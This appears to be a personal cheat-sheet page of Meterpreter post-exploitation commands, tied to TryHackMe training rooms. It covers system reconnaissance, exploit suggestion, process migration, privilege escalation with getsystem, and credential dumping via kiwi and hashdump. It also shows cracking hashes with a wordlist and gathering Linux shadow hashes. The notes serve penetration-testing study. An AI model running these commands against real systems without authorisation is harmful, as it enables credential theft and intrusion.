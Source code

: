 # Meterpreter exploitation commands

[Go back](../metasploit.md#meterpreter)


<div class="row row-cols-md-2"><div>

* ➡️ See if you are root and your privileges

```shell!
meterpreter> getuid
Windows: NT AUTHORITY\SYSTEM
```

* ➡️ Learn more about the system. Here with Windows, you could look for CVEs given the build version. The architecture can help too, as some scripts are less useful on some architectures.

```shell!
meterpreter> sysinfo
Computer        : XXX-PC
OS              : Windows X (... Build xxx...).
Architecture    : x64
```

* ➡️ Start a shell: `sh/bash` on Linux, `cmd` on Windows

```shell!
meterpreter> shell # start a shell
C:\WINDOWS\system32> # Windows cmd
```
</div><div>

* ➡️ Ask for suggested exploits

```shell!
meterpreter> run post/multi/recon/local_exploit_suggester
```

* ➡️ Load a local file `commands.txt` with meterpreter commands

```shell!
meterpreter> resource commands.txt
```

* ➡️ 📝 Migrate to another process 📝. This is something as some services/stuff need us to be "in" a process that has the same architecture, and the same permissions, that our target. **Usually**, any process run by "NT AUTHORITY\SYSTEM"/root should be okay, although you may have to try a few times.

```shell!
meterpreter> ps # list process
meterpreter> migrate process_pid # move to another process
meterpreter> migrate -N process_name # same
meterpreter> # most used ones
meterpreter> migrate -N spoolsv.exe # can restart so good
meterpreter> migrate -N explorer.exe # screenshots...
```
</div></div>

<hr class="sep-both">

## Windows commands

[![blue](../../../../_badges/thm-p/blue.svg)](https://tryhackme.com/room/blue)
[![ice](../../../../_badges/thm-p/ice.svg)](https://tryhackme.com/room/ice)
[![blaster](../../../../_badges/thm-p/blaster.svg)](https://tryhackme.com/room/blaster)
[![steelmountain](../../../../_badges/thmp-p/steelmountain.svg)](https://tryhackme.com/room/steelmountain)

<div class="row row-cols-md-2 mt-3"><div>

* ➡️ See your privileges

```shell!
meterpreter> getprivs
```

* ➡️ Try automatic privilege escalation 😎 ([more information](https://www.offensive-security.com/metasploit-unleashed/privilege-escalation/)).

```shell!
meterpreter> getsystem
```

* ➡️ Load PowerShell

```shell!
meterpreter> load powershell
meterpreter> powershell_shell
PS>
```
</div><div>

* ➡️ Dump in-memory passwords

```shell!
meterpreter> load kiwi
meterpreter> migrate some_process_nt_system_compatible
meterpreter> creds_all # retrieve all credentials
meterpreter> # you can also create a backdoor...
```

* ➡ | ️`root`. Dump every credential stored by the system. Passwords must be [cracked/dehashed](/cybersecurity/cryptography/algorithms/hashing/index.md#hash-cracking). You can use a [hash to login](https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/).

```ps
meterpreter> hashdump
# You may try to crack them using john within the msfconsole
msf6 exploit('module_used')> use auxiliary/analyze/crack_windows
msf6 exploit('module_used')> set CUSTOM_WORDLIST /usr/share/wordlists/rockyou.txt
msf6 exploit('module_used')> run
```
</div></div>

<hr class="sep-both">

## Linux commands

<div class="row row-cols-md-2 mt-3"><div>

* ➡️ Start a shell

```ps
meterpreter> shell
$
```
</div><div>

* ➡ | ️`root`. Dump every credential stored by the system. Passwords must be [cracked/dehashed](/cybersecurity/cryptography/algorithms/hashing/index.md#hash-cracking). You can use a [hash to login](https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/).

```ps
# basically, all that to do: "cat /etc/shadow"
meterpreter> bg
msf6 exploit('module_used')> use post/linux/gather/hashdump
msf6 exploit('module_used')> set SESSION 1
msf6 exploit('module_used')> run
```
</div></div>